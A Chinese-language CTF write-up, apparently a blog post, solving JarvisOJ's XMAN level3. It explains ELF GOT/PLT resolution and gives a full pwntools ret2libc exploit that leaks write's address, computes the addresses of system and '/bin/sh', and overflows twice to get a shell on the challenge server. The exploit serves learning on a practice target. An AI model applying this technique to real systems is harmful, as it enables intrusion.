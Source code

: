 ```yaml
---
layout: post
title: 「JarvisOJ」XMANlevel3题解
date: 2018-08-3 13:54:00
author:     "许大仙"
tags:
    - CTF
---
```

day4：XMANlevel3

## 一、GOT表和PLT表  ##


GOT(Global Offset Table)和PLT(Procedure Linkage Table)是Linux系统下面ELF格式的可执行文件中，用于定位全局变量和函数[动态库的]的数据信息.[一开始把GOT表和GDT表看重了，实际上完全不同。GOT+PLT表的目的就是为了在运行时重定位。]

在ELF文件的动态连接机制中，每一个外部定义的符号在全局偏移表 (Global Offset Table，GOT)中有相应的条目，如果符号是函数则在过程连接表(Procedure Linkage Table，PLT)中也有相应的条目，且一个PLT条目对应一个GOT条目。

使用PLT和GOT表的目的就是为了能够动态获取动态链接库中所需函数的地址。如果一个代码调用了非本地的函数，那么就不能单纯靠重定位获得最终地址。因为动态库的加载顺序都不是一定的，无法固定每个动态库中的函数具体位置。因此需要动态获取.so文件的函数地址。

PLT[x]实际上是用于计算[链接器生成一段额外的小代码片段，通过这段代码获取比如printf这样动态库中函数的地址，并完成对它的调用]，GOT用于存储外部函数的具体地址。

[PLT，GOT表的大致原理](https://blog.csdn.net/luojiabin135/article/details/79661868)

利用objdump -h 可执行文件名得到ELF文件的各个节信息。PLT表/节属于代码段，GOT表/节属于数据段

![](/assets/img/obj_gotplt.jpg)


在一些pwn题中，泄漏出的函数地址放在是got表中。为了泄漏这些真正的地址，往往会用到read，write，put等函数，通过已知同时存在于GOT和libc的函数地址，可以得出偏移量，接着就能通过偏移量找到system函数的真正地址，从而进行ret2lib操作[具体在下述实例中演示]。






PLT[0]是一个函数，这个函数的作用是通过GOT[0],GOT[1]和GOT[2]来正确绑定一个函数的真实地址到GOT表中来。而plt[0]代码做的事情则是：由于GOT[2]中存储的是动态链接器的入口地址，所以通过GOT[1]、GOT[0]中的数据作为参数，跳转到GOT[2]所对应的函数入口地址[即动态链接器]，这个动态链接器会将一个函数的真正地址绑定到相应的GOT[x]中。

一般是从GOT[3]，开始因为如上所述GOT[0],GOT[1]和GOT[2]有额外用途。中间进行的压栈是为了确定PLT对应的GOT表项，比如push 0x3即是PLT[1]−>GOT[3]. 压栈后我们跳转到PLT[0],接着PLT[0]中的指令会通过这次压栈的序号来确定操作的GOT表项为多少

![PLT/GOT表的两次解析](/assets/img/plt_got.jpg)

解析PLT/GOT表的两次解析：https://www.jianshu.com/p/0ac63c3744dd


深入：http://www.360doc.com/content/14/1111/15/19184777_424304443.shtml
http://www.360doc.com/content/14/1111/15/19184777_424303666.shtml


## 解题思路 ##

![checksec查看栈保护机制开启情况](/assets/img/checksec3.jpg)

老样子，用checksec查看，和XMAN level2一样，开启了栈不可执行，但是没有开始栈随机化，故可以使用ret2libc技术。

用IDA查看，可以确定通过read函数输入buf进行溢出，但是并没有看到合适的目标函数。与level2相比，在level3的ELF程序中不在出现system和bin/sh。

![没有合适产生shell的函数](/assets/img/func3.jpg)

但是level3中还提供了libc-2.19.so的动态链接库文件，默认情况下，程序都会自动引入这个库中的函数。用ida对.so文件进行反汇编，可以看到system函数和“/bin/sh”字符串都存在

![找到可产生shell的函数](/assets/img/attack3.jpg)

于是思路：通过read(0,&buf,0x100)[其中0表示标准输入/键盘输入，如果是1则表示标准输出，2表示标准错误输出]，栈溢出ret到system函数，利用参数"/bin/sh"产生shell。

![构造栈帧](/assets/img/ans3.jpg)

### 但是问题在于system的地址如何知道呢？ ###

通过libc.so文件可以得到write、system和/bin/sh的相对.so基址的偏移量

设函数func在内存中地址为func_addr,在libc中偏移为func_libc则有

> 　sys_addr - sys_libc == write_addr - write_libc

所以我们可以通过泄露write函数的地址write_addr，**利用两函数在内存中的地址和libc文件中的偏移的差相等**，获得system的地址

> sys_addr == write_addr  + sys_libc - write_libc = write_addr +△ _ libc



### 构造两次溢出 ###

要利用偏移相等获得system和bin的地址，首先要泄露得到write的真实地址，可以通过打印write在got表中的地址，获取其真实地址。

那么第一次溢出，就是调用write函数[利用write函数写的功能]，打印出write_got[write函数的真实地址]。

利用sysaddr = writeaddr - writelibc + syslibc
以及binaddr = writeaddr - writelibc + binlibc得到system函数和"/bin/sh"的真实地址

第二次溢出，就是再次调用vuln_addr，产生一段缓冲区，提供read栈溢出漏洞，利用system函数和"/bin/sh"产生shell。得到flag。

----------

1.输出write的真实地址——**write(1,write_got,4字节)**

在栈溢出到write函数[利用write_plt间接调用write]打印GOT表中的write真实地址，提供"1，write_got，4"这些产生，1表示标准输出到屏幕，write_got表示GOT表中write地址存储的位置指针，4表示4字节打印长度，write的真实地址4字节大小。
【由于在此前已经调用过vulnerable_function中的write函数，那么PLT_GOT表+动态链接器已经得到了write函数的真实地址，并且存储在GOT表中。所以GOT[x]已更新，不再是对应PLT[x]】

![获取write函数的真实地址](/assets/img/write_addr.jpg)

当write成功调用后退栈时，将ebp+4作为返回地址，这里应当填充vulnerable_function函数的地址，二次溢出，利用read函数的栈溢出漏洞，跳转到system函数+"/bin/sh"产生shell[由于vulnerable_function函数不需要参数，故不会覆盖第一次溢出的参数]。


最终构造的栈帧图为：
[溢出write函数打印write_got+再返回到vuln函数再次执行read，实现二次溢出到system，最终获取shell]

![](/assets/img/level3.jpg)

## 解题步骤 ##

```python
#!usr/bin/env python
# encoding:utf-8
from pwn import *

#io = process("./level3")
io = remote("pwn2.jarvisoj.com",9879)
elf = ELF("./level3")  #获取ELF文件头

writeplt = elf.plt["write"]　　　　#plt和got节同.text节一样在ELF程序中都有标识
writegot = elf.got["write"]   #得到write函数在GOT表和PLT表中的位置指针
func = elf.symbols["vulnerable_function"] #在符号表中得到vulnerable_function的真实地址

libc = ELF("./libc-2.19.so")  
writelibc = libc.symbols["write"]　　　　#libc的符号表中找到程序中有的/没有的函数的偏移地址
syslibc = libc.symbols["system"] 
binlibc = libc.search("/bin/sh").next() #"/bin/sh"的偏移量

payload1 = 'a' * 0x88 + 'f**k' + p32(writeplt) + p32(func) + p32(1)+p32(writegot)+p32(4)  #溢出地址+返回地址+参数

io.recvuntil("Input:\n")
io.sendline(payload1)

writeaddr = u32(io.recv(4))　　　　#收到终端/屏幕输出的write真实地址[4字节]。由于python没有指针，不能*write_got，需要将其输出并保存
sysaddr = writeaddr - writelibc + syslibc　　　　#利用偏移量相等获得其真实地址
binaddr = writeaddr - writelibc + binlibc

payload2 = 'a' * 0x88 + 'f**k' + p32(sysaddr) + p32(func) + p32(binaddr)  #二次溢出，还是有0x88+0x4的缓冲区
io.recvuntil("Input:\n")
io.sendline(payload2)
io.interactive()
io.close()
```


![攻击过程结果](/assets/img/process3.jpg)

## 补充 ##

[libc中的文件IO函数](https://blog.csdn.net/miss_acha/article/details/38274883)


**基于文件描述符**的I/O函数有：**open, close, read, write, getc, getchar, putc, putchar**等。他们**属于系统调用，更接近于硬件**，属于非缓冲文件系统的IO函数。

非缓冲文件系统依赖于操作系统，**通过操作系统的功能对文件进行读写，是系统级的输入输出，它不设文件结构体指针，只能读写二进制文件**[而文本文件不行]，（对于UNIX系统内核而言，文本文件和二进制代码文件并无区别），但效率高、速度快。由于ANSI标准不再包括非缓冲文件系统，因此，在读取正规的文件时，建议大家最好不要选择它。


**基于文件指针**的I/O函数有：**fopen,fclose,fread,fwrite,fgetc,fgets,fputc,fputs,freopen,fseek,ftell,rewind, fprintf等**。他们属于库函数，是对open,write等系统调用的封装，属于缓冲文件系统的I/O函数。

缓冲文件系统是借助于文件结构体指针FILE*来对文件进行管理，
**通过文件指针对文件进行访问，即可以读写字符、字符串、格式化数据，也可以读写二进制数据。**